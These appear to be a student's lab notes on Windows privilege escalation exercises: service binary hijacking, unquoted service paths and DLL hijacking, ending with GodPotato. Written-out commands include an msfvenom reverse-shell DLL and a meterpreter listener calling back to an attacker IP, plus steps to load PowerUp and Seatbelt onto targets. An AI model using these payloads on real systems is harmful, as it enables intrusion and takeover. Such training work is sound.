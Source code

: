 To see Local Group members of the same group
Get-LocalGroupMember -Group "Remote Desktop Users"

### 16.1.3 Hidden in Plain View Q3

![[Pasted image 20231023212122.png]]
![[Pasted image 20231023212422.png]]

![[Pasted image 20231023212448.png]]
![[Pasted image 20231023212513.png]]

### 16.1.4 Question 2
![[Pasted image 20231024180530.png]]
open up a server

![[Pasted image 20231024180546.png]]
after nc into the machine, download the seatbelt.exe file
![[Pasted image 20231024180626.png]]
![[Pasted image 20231024180823.png]]

### 16.2 Binary Jacking
![[Pasted image 20231024185034.png]]
![[Pasted image 20231024185351.png]]
![[Pasted image 20231024185407.png]]

log in as dave2 and open a cmd as an Administrator

### 16.2.1 Question 2
![[Pasted image 20231024193756.png]]
once logged into system,

**DON'T FORGET TO SET UP THE HTTP SERVER TO LISTEN TO**
get the the PowerUp.ps1 powershell into the system to upgrade the powershell
![[Pasted image 20231025205945.png]]
![[Pasted image 20231025205957.png]]
![[Pasted image 20231025210216.png]]we stop the BackupMonitor, move to the appropiate folder location and rename the file to old 

create the payload and set up the listener
![[Pasted image 20231025210211.png]]
Next, we stop the BackupMonitor exe file, rename it to something else, and then 

Next, we are going to cd to the backupmonitor, retrieve the payload from our kali and start BackupMonitor again
![[Pasted image 20231025210216.png]]
![[Pasted image 20231025210505.png]]
once you catch the payload, type shell and get the flag

MAJOR CMDs in this module
cl

msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set EXITFUNC=thread;set LHOST 192.168.45.179;set LPORT 4444;run;"

I dropped another shell to make it constant
![[Pasted image 20231025214525.png]]

### 16.2.2
![[Pasted image 20231027195151.png]]

use the credentials you just created from the lab


### 16.2.3 Unquoted Services

use Get-CimInstance -ClassName win32_service | Select Name,State,PathName to see all the win_32 services
look for the unquoted ones with space

![[Pasted image 20231027212432.png]]
use the adduser you created, but change the name to Surveillance.exe
once we download it, copy to the folder where you can move such file
![[Pasted image 20231027212836.png]]

**need to keep dropping folder to get it where you need it to put it at**
![[Pasted image 20231027212932.png]]

### 16.3.1 
![[Pasted image 20231028050415.png]]

![[Pasted image 20231028050634.png]]
![[Pasted image 20231028050654.png]]
![[Pasted image 20231028050821.png]]

### 16.3.2 Capstone exercise
![[Pasted image 20231028053728.png]]

![[Pasted image 20231028055712.png]]
![[Pasted image 20231028055800.png]]
![[Pasted image 20231028055726.png]]

after running the following cmd, notice how that service is the only one with C:\Service path"
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

![[Pasted image 20231028062230.png]]

navigate to the Services folder
![[Pasted image 20231028192010.png]]
you are going to see that .dll information
use that to create a payload for a reverse shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.179 LPORT=4444 -f dll -o EnterpriseServiceOptional.dll
![[Pasted image 20231028192123.png]]
open a nc port
then navigate to the windows station and download the .dll file, then start services to open the shell
![[Pasted image 20231028192416.png]]
next, look at your privileges
![[Pasted image 20231028192507.png]]
I tried to run the PrintSpoofer64.exe like the lesson and saw this, which I google
![[Pasted image 20231028192959.png]]

God potato can be used for privilege escalation
https://github.com/BeichenDream/GodPotato/releases/tag/V1.20

using the wget command to download the NET-4.exe copy and rename it
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe

![[Pasted image 20231028193230.png]]
download the exe file and run it into the enterpriseuser
![[Pasted image 20231028193420.png]]
![[Pasted image 20231028193434.png]]
shift to cmd, and run the test. once you get the appropiate results, run the command to find the flag
![[Pasted image 20231028193906.png]]

